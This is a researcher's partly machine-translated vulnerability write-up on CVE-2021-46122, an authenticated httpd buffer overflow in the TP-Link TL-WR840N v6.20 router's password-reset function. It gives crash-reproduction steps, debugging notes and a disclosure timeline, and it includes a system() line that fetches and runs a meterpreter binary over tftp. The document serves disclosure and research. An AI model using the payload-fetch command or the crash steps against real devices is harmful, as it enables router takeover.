# TP-Link TL-WR840N v6.20(EU) 密码重置漏洞

## TP-Link TL-WR840N v6.20(EU) 密码重置漏洞 (CVE-2021-46122)

\#TPLINK、#CVE、#crash、#rce

最后修改时间：2022.04.18。

## 故事

寒假期间我放了几天假，玩了一下路由器固件。我只打算用一两天的时间来处理这个问题，但这个问题太有趣了，我最终花了更多的时间在它上面。不幸的是，我没有时间完全完成漏洞利用，但大部分问题已经解决。

是否有可能利用该漏洞？我想是的。

一有心情和时间，我就完成并更新报告。

我将报告发送给 TP-Link 安全团队。报告被接受，固件已修复。

## 概括

TP-Link TL-WR840N (EU) v6.20 包含 httpd 进程中的缓冲区溢出漏洞。攻击者可以通过网络发送消息获得路由器的外壳。受影响的功能是密码重置功能。

**注意：**要利用该漏洞，密码是必需的。

- **硬件：** TP-Link TL-WR840N (EU) v6.20
- **固件：** 0.9.1 4.17 v0001.0 Build 201124 Rel.64328n
- **需要身份验证：**是

该漏洞已在以下固件中修复：TL-WR840N(EU)_V6.2_220120。

我强烈建议将固件升级到最新版本“TL-WR840N(EU)_V6.2_220120”。它可以从供应商主页下载。

我要感谢 TP-Link 安全团队。

## 时间线

- 2021.12.31 - TP-Link 安全团队通知了该漏洞。
- 2021.12.31 - MITRE 通知了该漏洞。
- 2022.01.04 - TP-Link 发送了响应。
- 2022.01.04 - 报告更新。
- 2022.01.04 - 报告更新。
- 2022.01.10 - 新的 Beta 固件。
- 2022.01.18 - 检查了 beta 固件 (k4m1ll0)。
- 2022.01.20 - 进一步讨论。
- 2022.02.15 - 新固件发布：TL-WR840N(EU)_V6.2_220120
- 2022.04.15 - 公告发布。
- 2022.04.15 - 请求 CVE ID。
- 2022.04.18 - 分配了 CVE-2021-46122

## 技术细节

## UART外壳

经过一些焊接后，UART接口可用。UART shell 以管理权限运行。UART shell 用于调试，没有必要利用该漏洞。

注意：UART 不需要密码。


## 加密参数

路由器管理界面可通过 HTTP 访问。

此路由器使用 HTTP 消息，但某些参数是加密的。了解加密过程是测试路由器参数的关键。

以下屏幕截图包含带有加密参数的 HTTP 消息。重要的部分是**“sign”**和**“data”**参数。



有 4 个重要的 JavaScript 文件。

- CryptoJS.min.js - 标准密码库
- encrypt.js - 供应商特定（？），它包含 RSA 实现
- tpEncrypt.js - 供应商特定，它包含加密逻辑
- lib.js - “主要”

下面的简化图可视化了加密过程：


注意：“登录请求”与其他请求略有不同



POST /CGI?8 请求和响应示例：

笔记：

- 无身份验证
- 参数未加密
- 它不会改变（会话相关）


“Lib.js” – AESEncrypt Firefox – JavaScript 调试器（漂亮的打印源）


这是一个重要的地方，因为“s.data”参数中包含明文（请求）参数，加密前可以修改。

Firefox 和 JavaScript 调试控制台的实际参数示例：


HTTP响应也是加密的，相关断点如下（lib.js）：


注意：“INCLUDE_LOGIN_GDPR_ENCRYPT”参数操作不起作用。

## 重现漏洞（崩溃）

要重现崩溃只需要一个浏览器。步骤如下：

1. 登录
2. 打开 JavaScript 控制台并使用调试界面
3. 准备一些断点（lib.js）
4. 选择（系统工具->密码）
5. 填写表格并点击“保存”
6. 使用调试器（操纵）请求并继续执行。

以下屏幕截图包含“ps”命令输出。从漏洞的角度来看，“httpd”进程很重要，因为它稍后会崩溃。



在此演示期间，使用了 Firefox 浏览器。使用内置的“Pretty print source”功能，显示“lib.js”JavaScript 文件。

在第 365 行和第 367 行设置了两个断点：


存储在“s.data”变量中的明文参数。执行将在此处停止，并且可以使用 JavaScript 控制台来操作参数。

登录后（本例中为 192.168.1.1）选择系统工具 -> 密码（重置表单）



打断点：


调试器：



在 JavaScript 控制台中，参数是可见的。在这种情况下，旧密码是“admin2”：



“pwd”参数从“admin1”更改为1500“A”-s。


继续执行，就会发生崩溃。HTTP 服务器不可访问：


“ps”命令输出中缺少“httpd”：



“netstat”命令输出：


## Httpd崩溃分析

准备环境：

```bash
# copy busybox
tftp -g -r busybox-mipsel -l /var/tmp/busybox-mipsel 192.168.1.101

# copy gdbserver
tftp -g -r gdbserver -l /var/tmp/gdbserver 192.168.1.101

## ps -> httpd process 321

## gdbserver
/var/tmp # ./gdbserver localhost:2000 --attach 321

## copy and paste debug script

cd /var/tmp;
tftp -g -r gdbserver -l /var/tmp/gdbserver 192.168.1.101;
chmod +x /var/tmp/gdbserver;
./gdbserver localhost:2000 --attach 321 &
```

调试脚本（客户端）：


```bash
# gdb attach
gdb-multiarch -x debugscript
    
```

重现崩溃并使用 gdb 检查堆栈跟踪：



用 ghidra 恢复了相关功能。

1. dm_fillObjByStr (libcmm.so)
2. dm_checkString (libcmm.so)
3. dm_checkParamNodeString (libcmm.so)
4. rdp_setObj (httpd)
5. http_rpm_auth_main (httpd)

### “dm_fillObjByStr”

用红色标记的相关局部变量：



溢出发生在以下“strncpy”调用中：



上面可见的崩溃只是一个副作用，因为“dm_setParamNodeString”函数的参数不正确。

如果参数不正确，httpd 进程可能会在多个地方崩溃：

- 在“dm_checkString”函数内
- 在“dm_setParamNodeString”函数内
- 在“dm_fillObjByStr -> cdbg_printf”内（用粉红色标记）

## 检查二进制文件

崩溃本身是一个漏洞，但可能可以获得反向shell。

### 二进制保护

 

 

**可以从堆栈中执行指令。**

B计划是一个ROP链。

### 启用 ASLR：


## 如何利用它？？？

这并不容易，但（至少在理论上）这是可能的。以下部分包含最重要的问题和解决方案。

## 问题

## MIPS“缓存问题”

MIPS 和缓存可能会破坏有效负载，避免缓存问题的众所周知的技术是“睡眠”函数调用。

它在设备上使用一个小的测试二进制文件进行了测试，并且可以正常工作。

## “代码执行”部分

可以使用 msfvenom 工具生成正确的二进制文件。tftp 命令可用于执行复制二进制文件。二进制文件可以通过以下方式执行：

```bash
# copy and execute k44 binary (meterpreter, multi handler, mipsle)
system("tftp -g -r k44 -l k44 /var/tmp/shell 192.168.1.101; chmod +x k44;/var/tmp/k44")
    
```

它在设备上进行了测试，并且可以正常工作。:)

## JavaScript 加密和原始字节发送问题。

从浏览器很难发送复杂的有效载荷。问题是Unicode转换，例如：

 

注意：浏览器输入适用于“简单”字符。

快速回顾一下加密：


一个例子：


手动生成符号存在问题。固件不接受手动生成的符号参数。

通过浏览器发送参数非常不方便，因此值得自动化。我做了一个快速而肮脏的解决方案：

1. 我在 python3 中实现了“数据加密”部分。
2. 参数来自带有手动警报的 JavaScript 控制台。
3. 我稍微修改了 encrypt.js (TP-Link)，它与 spidermonkey JS 引擎一起重用以生成符号值。

数据加密示例：



标志示例：


### encrypt.js 修改：

新的随机函数：


“getRandomValues”并删除不必要的部分：



处理参数：



### 示例用法：

登录后收集带有警报的变量：



将参数与 poc 脚本一起使用：


使用加密的参数并使用 burp 发送请求。

发生崩溃，并且“BCDE”字节在调试器中的好位置：



笔记：

1. 工具链只是一个快速而肮脏的解决方案。它可以工作，但需要进一步的自动化。
2. The input is an UTF-8 string and not an "ascii" string. It is not trivial to use the "characters" because of the representation. e.g.: \x90-> \x90\x00. This must be solved.

## Open Topics

Unfortunately, I did not have time to move on, but I really want to finish.

There are only two problems left the "UTF-8 encoding problem and the " and the "dm_setParamNodeString" side effect problem.

## Notes about the "dm_setParamNodeString" side effect problem:

- The whole thing is extremely funny. It crashes in a debug line before the real "crash". It is not a protection mechanism, it is a bug. :).
- With the debugger, I was able to manipulate the memory to solve partly the issue.
- Note: The address contains 4 byte and \x00 byte is not allowed.

Update is coming...